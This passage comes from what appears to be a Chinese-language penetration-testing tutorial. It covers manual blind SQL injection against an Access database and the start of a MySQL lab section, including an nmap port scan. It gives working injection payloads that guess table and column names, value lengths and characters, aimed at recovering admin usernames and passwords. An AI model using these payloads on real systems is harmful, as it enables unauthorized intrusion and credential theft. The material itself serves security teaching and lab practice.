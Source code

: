 数据库独有表：
1. Access: mssysobjects
2. MSSQL: sysobjects
3. MySQL: information_schema.tables
4. Oracle: sys.user_tables

假设经过判断是 Access 数据库，我们下面接着对 Access 数据库进行手工注入

五、判断表名:admin,user,userinfo
```
and (select count(*) from 猜解的表名)>0
```
![](https://images.gitbook.cn/43c22680-c688-11e9-863a-efd6ae74ec5e)六、判断列名:user,pass,username,password,admin_user,admin_pwd....
```
and (select count(猜解的字段名) from 已猜解的表名)>0
```
![在这里插入图片描述](https://images.gitbook.cn/6f314570-c689-11e9-b1d0-e193f39e1860)
七、判断长度:len(字段名)>4
```
and (select len(admin_user) from admin)>4
```
八、判断值:left(admin_user,1)='a'
```
left(admin_user,1) 表示从 admin_user 字段左边取一位
left(admin_user,2)='ad'
left(admin_user,3)='adm'
```
![](https://images.gitbook.cn/e6e45bf0-c68b-11e9-b1d0-e193f39e1860)

























## 0x05 MySQL 渗透测试与漏洞提权利用
渗透测试中，关于 MySQL 常见的有 MySQL SQL injection，MySQL UDF MOF 提权，MySQL root 身份验证 bypass，webshell getshell，LPK 劫持，远程代码执行 RCE 等。

本次实验环境：
+ 靶机: Win10，MySQL5.5.62
+ 试验机: kali linux

##### MySQL 端口信息收集
一、使用 nmap 收集
```
默认端口号：TCP 3306
nmap -sS -sV -p 3306 192.168.1.161
```
![在这里插入图片描述](https://images.gitbook.cn/f0e11240-c656-11e9-b1d0-e193f39e1860)通过扫描我们可以尝试使用 MySQL client 进行登录猜解
